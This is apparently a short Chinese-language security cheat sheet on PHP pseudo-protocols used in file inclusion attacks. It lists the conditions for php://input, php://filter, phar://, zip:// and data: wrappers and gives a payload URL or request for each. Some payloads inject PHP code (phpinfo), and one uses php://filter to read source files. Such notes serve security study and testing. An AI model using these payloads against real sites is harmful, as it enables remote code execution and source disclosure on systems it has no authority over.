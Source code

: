 # 伪协议
#### 参考

- https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/


## php://input
#### 利用条件

​	- allow_url_include = On。
​	- 对allow_url_fopen不做要求。

```
index.php
?file=php://input
POST:
<? phpinfo();?>
```

## php://filter
filter的过滤器有很多。
```
index.php?file=php://filter/read=convert.base64-encode/resource=index.php
```

## phar://
(PHP 5 >= 5.3.0, PHP 7, PECL phar >= 1.0.0)
```
index.php?file=phar://test.zip/phpinfo.txt
```

## zip://
(PHP 5 >= 5.2.0, PHP 7, PECL zip >= 1.1.0)
绝对路径，编码#

```
index.php?file=zip://D:\phpStudy\WWW\fileinclude\test.zip%23phpinfo.txt
```

## data:URI schema
(php>=php5.2, allow_url_fopen = On, allow_url_include = On)
```
index.php?file=data:text/plain,<?php phpinfo();?>
```